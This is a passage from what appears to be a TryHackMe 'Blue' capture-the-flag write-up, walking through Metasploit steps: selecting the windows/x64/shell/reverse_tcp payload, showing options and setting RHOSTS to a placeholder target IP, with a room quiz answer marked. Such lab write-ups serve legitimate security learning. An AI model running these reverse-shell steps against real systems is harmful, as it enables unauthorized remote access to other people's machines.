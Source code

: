 In this case, considering that we want to gain access to the machine and knowing that it is a Windows x64 system, we will use the payload number 60.
(payload windows/x64/shell/reverse_tcp | Windows x64 Command Shell, Reverse TCP Inline)
To load it:
```bash
set payload windows/x64/shell/reverse_tcp
```
![Metasploit](https://raw.githubusercontent.com/fartaviao/tryhackme-blue/refs/heads/main/Screenshots/Screenshot-06.png)

Once the payload is set, display the exploit options:
```bash
show options
```
![Metasploit](https://raw.githubusercontent.com/fartaviao/tryhackme-blue/refs/heads/main/Screenshots/Screenshot-07.png)

- RHOSTS ✅ Correct Answer

**4. Run the exploit!**
Before running the exploit, we need to set the **RHOSTS** value to the IP address of the target machine:
```bash
set rhosts <TARGET_IP>
```

![Metasploit](https://raw.githubusercontent.com/fartaviao/tryhackme-blue/refs/heads/main/Screenshots/Screenshot-08.png)
(The target IP changed because in my case for this write-up the machine timed out, but it doesn't matter just keep it in mind)
